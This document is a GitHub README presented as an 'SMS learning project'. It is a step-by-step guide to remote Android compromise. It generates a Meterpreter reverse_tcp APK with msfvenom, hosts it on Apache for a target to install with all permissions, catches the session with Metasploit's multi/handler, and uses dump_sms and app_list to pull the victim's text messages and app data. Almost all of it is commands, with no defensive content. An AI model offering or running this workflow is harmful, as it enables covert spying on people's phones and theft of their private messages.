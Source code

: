 # Access-Phone's-SMS-Remotely
Remote SMS Learning Project  Learn SMS management via Android APK payloads.  Features: Education, Payloads, Security, User-friendly, Customization, Device Compatibility.
## Table of Content
1. [Generate APK File](#generate-apk-file)
2. [Accessibility](#accessibility)
3. [Check Server](#check-server)
4. [Installation](#installation)
5. [Permissions](#permissions)
6. [Accessing Device](#accessing-device)




## Generate APK File
`sudo msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.0.0 lport=4444 R > ./hacker.apk`
`sudo`: This is a command used in Unix-like operating systems to execute commands with superuser privileges. It allows the user to perform administrative tasks.
`msfvenom`: This is a Metasploit Framework payload generator. It's used to create payloads for exploiting vulnerabilities in systems.
`-p android/meterpreter/reverse_tcp`: This part specifies the payload to generate. In this case, it's creating a payload for Android devices that will connect back to the attacker's machine using the Meterpreter payload over a reverse TCP connection.
`lhost=192.168.0.0`: This option specifies the IP address of the attacker's machine (the listening host) to which the payload will connect back.
`lport=4444`: This option specifies the port on the attacker's machine where the payload will connect back.
`R > ./hacker.apk`: This part redirects the output of msfvenom to a file named hacker.apk. The -R flag is used to specify the output format, which in this case is an APK file for Android.

## Accessibility

Making the file to be easily accessible by other machine/system/device.
`sudo mv ./hacker.apk /var/www/html/`

## Check Server

Check whether your apache server is running or not.
`systemctl status apache2`
If the status is active (running), then okay. If not, use this command below to activate your apache2 server.
`sudo systemctl start apache2`
Optionally, you can also enable Apache2 to start automatically on boot by running:
`sudo systemctl enable apache2`
To verify that Apache2 is running, you can use:
`sudo systemctl status apache2`
So, we have our web application server running.

## Installation

Open your favourate browser on the targeted device and type the ip address followed by forward slash hacker.apk. For example if the ip addr is 192.168.0.0:
➡ 192.168.0.0/hacker.apk

## Permissions

After this, allow the permission to install the apk in the device. Enable all the permissions if needed from the settings>apps>app_name

## Accessing Device

Open Metasploit Framework in your Linux terminal. Type the command in your linux terminal to start Metasploit Framework.
`msfconsole`

Type this command to use the specific exploit:
`use exploit/multi/handler`

Set payload using this command:
`set payload android/meterpreter/reverse_tcp`

See Options:
`show options`

Set LHOST by the ip addr of the listener machine i.e. in our case, Kali Linux:
`set LHOST 192.168.0.0` ➡ Replace 192.168.0.0 with your machine ip addr.

After this, run it by using one of these commands:
`exploit` or `run`

As soon as yopu open the installed apk in the targeted device, it will create a meterpreter session in your terminal.

Type `help` to see all the available options and commands that you can pass.

`app_list` This will show us all the applications data already installed inside the device.

Type command: `dump_sms` and hit enter.

Then immediately you will see we have a file created on our desktop. Open it and ypu can see all of the text messages.


There's a lot more commands that we can do as part of this android hacking. Stay tuned for more valueable information to be shared with you :)

